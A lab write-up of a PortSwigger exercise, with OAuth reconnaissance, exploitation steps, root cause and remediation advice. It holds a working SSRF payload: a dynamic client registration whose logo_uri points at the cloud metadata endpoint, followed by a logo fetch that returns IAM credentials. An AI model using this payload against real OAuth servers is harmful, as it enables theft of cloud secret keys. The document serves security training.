





## Metadata

- **Difficulty:** Practitioner
- **Category:** OAuth authentication
- **Lab URL:** [Lab: SSRF via OpenID dynamic client registration](https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration)
- **Date Solved:** 9/10/2026
## Vulnerability Summary

The OAuth authorization server implements OpenID Connect dynamic client registration at the unauthenticated `/reg` endpoint. The registration handler accepts client metadata parameters, including `logo_uri`, which is intended to reference an external image file representing the client application. When retrieving the registered client's logo via the `/client/<client_id>/logo` endpoint, the OAuth server makes a backend HTTP request to the supplied URL without validating the destination host. This introduces a Server-Side Request Forgery (SSRF) vulnerability, allowing an attacker to query internal cloud infrastructure (`http://169.254.169.254`) and exfiltrate the `SecretAccessKey` for the cloud environment.
## Reconnaissance

- Navigating to the `/my-account` endpoint automatically takes us to the `/social-login` endpoint. Here, we can log in with the provided credentials `wiener:peter`.
- The server is using OAuth as the authentication mechanism, as there is a request sent to the server automatically after we are redirected:
```http
GET /auth?client_id=[client-id]&redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email 
...
```
We can see that the grant type is *authorization code*, due to the `response_type=code` parameter in the request line.
- Navigating to the `/.well-known/openid-configuration` endpoint on the OAuth authorization server reveals the configuration file:

- The `"registration_endpoint"` field is present at `/reg`.
- Testing client registration by sending a request like so to this endpoint:
```http
POST /reg HTTP/2
Host: oauth-[oauth-server-id].oauth-server.net
...
Content-Type: application/json
Accept: application/json


{
  "application_type":"web",
  "redirect_uris":[
    "https://example.com"
  ],
  "client_name":"uiauia",
}
```
yields a `201 Created` response and a JSON object containing the newly created client details, including a generated `client_id` and registration access token.

This confirms that the OAuth authorization server - OpenID provider allows dynamic client registration without any authentication, as we did not have to use the `Authorization` header with a HTTP `Bearer` token.

Studying the OAuth flow of our account authentication reveals that when the client application sent a request to the OAuth server to request access to our data, it fetched the client application's logo through an endpoint, `/client/[value]/logo`. Perhaps this `[value]` is the `client_id` that the client application obtained when registered. 

- We test this behavior by generating a Burp Collaborator domain to supply into the `"logo_uri"` field. Sending another `POST /reg` request with the body like so:
```json
{
  "application_type":"web",
  "redirect_uris":[
    "https://example.com"
  ],
  "client_name":"uiauia",
  "logo_uri":"https:/[collaborator-domain].oastify.com"
}
```
yields a `201 Created` with a newly generated `client_id` in the response. Using this `client_id` to make a `GET /client/[client_id]/logo` results in our Collaborator server receiving some interactions:

The internal cloud infrastructure URL is already provided (`http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/`). We can supplement this value in the `logo_uri` field, which we can then fetch manually from the `/client/[client_id]/logo` of the OAuth server like we have tested above.
## Exploitation Steps

1. Navigate to the `/my-account` endpoint, where you will be automatically taken to the `/social-login` endpoint. Log in with the credentials `wiener:peter`.
2. In Burp, send a `POST` request to the `/reg` endpoint like so:
```http
POST /reg HTTP/2
Host: oauth-[oauth-server-id].oauth-server.net
...
Content-Type: application/json
Accept: application/json

{
    "application_type": "web",
    "redirect_uris": [
        "https://example.com"
        ],
    "client_name": "uiauia",
"logo_uri":   "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"
}
```
Do remember to include the headers:
```http
Content-Type: application/json
Accept: application/json
```
else you will receive a `400 Bad Request` that says:
```html
      <div class="container">
        <h1>oops! something went wrong</h1>
        <pre><strong>error</strong>: invalid_redirect_uri</pre><pre><strong>error_description</strong>: redirect_uris is mandatory property</pre>
      </div>
```
3. Observe that you received a `201 Created`. Make a note of the value of the `client_id` field in the respose.
4. With this `client_id` value, make a `GET` request to fetch the logo from the supplemented `logo_uri` URL like so:
```http
GET /client/[client-id]/logo HTTP/2
Host: oauth-[oauth-server-id].oauth-server.net
...
```
5. You should receive a `200 OK` response that exposes the data of the internal cloud endpoint:

Copy the value of the `"SecretAccessKey"` field and submit solution. Lab is solved.
## Payload Used

```json
{
    "application_type": "web",
    "redirect_uris": [
        "https://example.com"
        ],
    "client_name": "uiauia",
"logo_uri":   "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"
}
```

`logo_uri` is a client metadata field specifying a URI referencing an image for the client logo. Because the authorization server attempts to cache or proxy this asset for use in authorization consent screens and exposes it through `/client/[client_id]/logo`, setting `logo_uri` to an internal address forces the OAuth backend server to perform an unauthenticated HTTP GET request across its own network perimeter. Because there is no implemented validation mechanism whatsoever on this `logo_uri` value or its results, the cloud metadata service returned the `text/json` data directly back in the HTTP response.
## Root Cause

- The OpenID dynamic client registration endpoint (`/reg`) is publicly accessible without authentication or registration tokens (Initial Access Tokens).
- The application fetches resources defined in `logo_uri` without enforcing SSRF safeguards. There is no validation mechanism to prevent requests to loopback or internal IP addresses.
- The server sends the raw response content directly to the user at `/client/[client_id]/logo` without validating the returned `Content-Type` header or parsing the file as an actual image.
## Remediation

- **Network-Level SSRF Mitigation:**    
    - Enforce strict egress firewall rules on the authorization server host, disallowing traffic to internal addresses, loopback interfaces, and cloud link-local addresses.
    - Upgrade cloud environments to enforce AWS IMDSv2 (requiring a `PUT` request with custom headers to obtain a session token before fetching metadata), which effectively mitigates typical GET-based SSRF vulnerabilities.
- **URI Validation and DNS Resolution Checks:**
    - Enforce an HTTPS-only scheme validation on all URI metadata fields.
    - Resolve the hostname prior to connection, ensure the resulting IP address does not fall into private, reserved, or link-local ranges, and pin the socket to that validated IP to prevent DNS rebinding attacks.
- **Enforce Media Handling and Content-Type Validation:**
    - When fetching remote client logos, validate that the response `Content-Type` is an allowed image MIME type.
    - Process/transcode the fetched asset using a dedicated sandboxed image parsing library rather than relaying the upstream raw response bytes directly to the client.
- **Restrict Dynamic Registration:**
    - If dynamic registration is not required, disable the `/reg` endpoint.
    - If required, protect client registration using an Initial Access Token (OAuth 2.0 Bearer Token) distributed exclusively to authorized entities.